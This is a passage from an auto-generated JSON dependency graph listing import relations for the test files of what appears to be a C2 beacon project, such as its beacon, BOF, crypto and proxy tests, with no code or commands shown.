"EXTRACTED", "relation": "imports", "source": "mutants/tests/test_async_i_o_for_beacon_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_async_i_o_for_beacon_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_async_i_o_for_beacon_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_async_i_o_for_beacon_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_async_i_o_for_beacon_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_build.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_build.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_build.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_build.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_build.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_common.c_extraction_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_common.c_extraction_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_common.c_extraction_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_common.c_extraction_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_common.c_extraction_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_heartbeat___health_endpoint.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_heartbeat___health_endpoint.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_heartbeat___health_endpoint.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_heartbeat___health_endpoint.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_heartbeat___health_endpoint.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_heartbeat___health_endpoint.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_heartbeat___health_endpoint_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_heartbeat___health_endpoint_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_heartbeat___health_endpoint_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_heartbeat___health_endpoint_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_beacon_heartbeat___health_endpoint_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_api_versioning.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_api_versioning.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_api_versioning.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_api_versioning.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_api_versioning.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_api_versioning.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_api_versioning_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_api_versioning_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_api_versioning_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_api_versioning_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_api_versioning_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_compile.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_compile.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_compile.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_compile.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_compile.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_path_traversal_hardening.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_path_traversal_hardening.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_path_traversal_hardening.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_path_traversal_hardening.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_path_traversal_hardening.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_path_traversal_hardening.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_path_traversal_hardening_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_path_traversal_hardening_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_path_traversal_hardening_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_path_traversal_hardening_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_path_traversal_hardening_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_streaming_(large_outputs).py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_streaming_(large_outputs).py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_streaming_(large_outputs).py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_streaming_(large_outputs).py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_streaming_(large_outputs).py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_streaming_(large_outputs).py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_streaming_(large_outputs)_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_streaming_(large_outputs)_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_streaming_(large_outputs)_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_streaming_(large_outputs)_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_bof_streaming_(large_outputs)_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "c2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "cryptography.hazmat.primitives.ciphers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "cryptography.hazmat.primitives.ciphers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "cryptography.hazmat.primitives.ciphers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "cryptography.hazmat.primitives.ciphers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "cryptography.hazmat.primitives.ciphers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_rest_api.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_rest_api.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_rest_api.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_rest_api.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_rest_api.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_rest_api.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_rest_api_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_rest_api_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_rest_api_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_rest_api_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_rest_api_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_server.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_server.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_server.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_server.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_server.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_server.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_server.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_server.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_c2_server.py", "target": "c2.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning.py", "target": "config_py"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning___tofu.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning___tofu.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning___tofu.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning___tofu.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning___tofu.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning___tofu.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning___tofu_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning___tofu_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning___tofu_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning___tofu_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_certificate_pinning___tofu_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_command_execution_via_execve.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_command_execution_via_execve.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_command_execution_via_execve.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_command_execution_via_execve.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_command_execution_via_execve.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_command_execution_via_execve.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_command_execution_via_execve_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_command_execution_via_execve_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_command_execution_via_execve_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_command_execution_via_execve_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_command_execution_via_execve_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_config.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_config.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_config.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_config.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_config.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_config.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_config.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_config.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_containerized_build_+_sbom_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_containerized_build_+_sbom_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_containerized_build_+_sbom_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_containerized_build_+_sbom_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_containerized_build_+_sbom_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_crypto.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_crypto.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_crypto.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_crypto.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_crypto.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_crypto.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_crypto.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_crypto.py", "target": "cryptography.hazmat.primitives.ciphers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_crypto.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_hkdf_key_derivation.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_hkdf_key_derivation.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_hkdf_key_derivation.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_hkdf_key_derivation.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_hkdf_key_derivation.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_hkdf_key_derivation.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_hkdf_key_derivation_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_hkdf_key_derivation_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_hkdf_key_derivation_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_hkdf_key_derivation_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_hkdf_key_derivation_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_install_deploy.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_install_deploy.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_install_deploy.py", "target": "stat"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_install_deploy.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_install_deploy.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_install_deploy.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_install_deploy.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_iv_generation_with_entropy_verification.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_iv_generation_with_entropy_verification.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_iv_generation_with_entropy_verification.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_iv_generation_with_entropy_verification.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_iv_generation_with_entropy_verification.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_iv_generation_with_entropy_verification.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_iv_generation_with_entropy_verification_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_iv_generation_with_entropy_verification_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_iv_generation_with_entropy_verification_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_iv_generation_with_entropy_verification_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_iv_generation_with_entropy_verification_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_mutation_testing_integration.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_mutation_testing_integration.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_mutation_testing_integration.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_mutation_testing_integration.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_mutation_testing_integration.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_mutation_testing_integration.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_mutation_testing_integration_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_mutation_testing_integration_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_mutation_testing_integration_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_mutation_testing_integration_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_mutation_testing_integration_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_pre-commit_+_ci_hardening_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_pre-commit_+_ci_hardening_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_pre-commit_+_ci_hardening_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_pre-commit_+_ci_hardening_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_pre-commit_+_ci_hardening_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_replay_protection.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_replay_protection.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_replay_protection.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_replay_protection.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_replay_protection.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_replay_protection.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_replay_protection_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_replay_protection_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_replay_protection_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_replay_protection_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_replay_protection_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_socks5___http_proxy_support.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_socks5___http_proxy_support.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_socks5___http_proxy_support.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_socks5___http_proxy_support.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_socks5___http_proxy_support.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_socks5___http_proxy_support.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_socks5___http_proxy_support_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_socks5___http_proxy_support_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_socks5___http_proxy_support_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_socks5___http_proxy_support_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_socks5___http_proxy_support_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_structured_jsonl_logging.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_structured_jsonl_logging.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_structured_jsonl_logging.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_structured_jsonl_logging.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_structured_jsonl_logging.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_structured_jsonl_logging.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_structured_jsonl_logging_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_structured_jsonl_logging_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_structured_jsonl_logging_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_structured_jsonl_logging_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_structured_jsonl_logging_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_tls_client_certificate_authentication.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_tls_client_certificate_authentication.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_tls_client_certificate_authentication.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_tls_client_certificate_authentication.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_tls_client_certificate_authentication.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_tls_client_certificate_authentication.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_tls_client_certificate_authentication_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_tls_client_certificate_authentication_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_tls_client_certificate_authentication_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_tls_client_certificate_authentication_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_tls_client_certificate_authentication_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": 